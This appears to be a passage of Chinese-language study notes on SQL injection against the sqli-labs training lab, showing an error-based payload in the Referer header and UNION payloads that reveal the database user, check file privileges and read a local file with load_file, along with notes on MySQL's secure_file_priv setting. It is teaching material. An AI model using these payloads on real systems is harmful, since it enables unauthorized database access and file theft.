 

## Referer 注入

注入参数在Referer 字段中，以sqli-labs-19 关为例子

```http
POST /sqli-labs/Less-19/ HTTP/1.1
Host: 10.4.7.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://10.4.7.128
DNT: 1
Connection: close
Referer: AJEST' and updatexml(1,concat(0x5e,(select database()),0x5e),1) and '1
Upgrade-Insecure-Requests: 1

uname=Dumb&passwd=Dumb&submit=Submit
```



## SQL注入读写文件

> 前提条件

1. 当前（连接）数据库的用户具有文件读写权限。数据库的权限粒度，某个库中某个表某个用户是否有增删改查权限
2. MySQL 数据库用户，例如root@localhost，由两部分组成： 用户名、地址

```sql
?id=1 and1=2 union select 1,user(),3 --+   #user()返回用户 root@localhost
?id=1 and1=2 union select 1,current_user(),3 --+   #current_user()返回当前用户 root@localhost
and 1=2 union select 1,file_priv,3 from mysql.user where user='root' and host='localhost' #查文件读写权限
```

> 读文件load_file("文件路径")

```sql
?id=1 and 1=2 union select 1,load_file("c:/windows/1.txt"),3 from mysql.user where user='root' and host='localhost'  #读文件
```

> 安全选项

MySQL 数据库有关于文件读写的安全选项secure_file_priv。 secure_file_priv 参数限制了mysqld(MySQL DBMS) 的导入导出操作，这个选项是不能利用SQL 语句修改，必须修改my.ini 配置文 件，并重启mysql 数据库。

```mysql
show global variables like '%secure_file_priv%'; #查看安全选项secure_file_priv
```

| secure_file_priv=NULL    | 限制mysqld 不允许导入导出操作。                              |
| ------------------------ | ------------------------------------------------------------ |
| secure_file_priv='c:/a/' | 会限制mysqld 的导入导出操作在某个固定目录下， 并且子目录有效。 |
| secure_file_priv=        | 不对mysqld 的导入导出操作做限制。                            |

---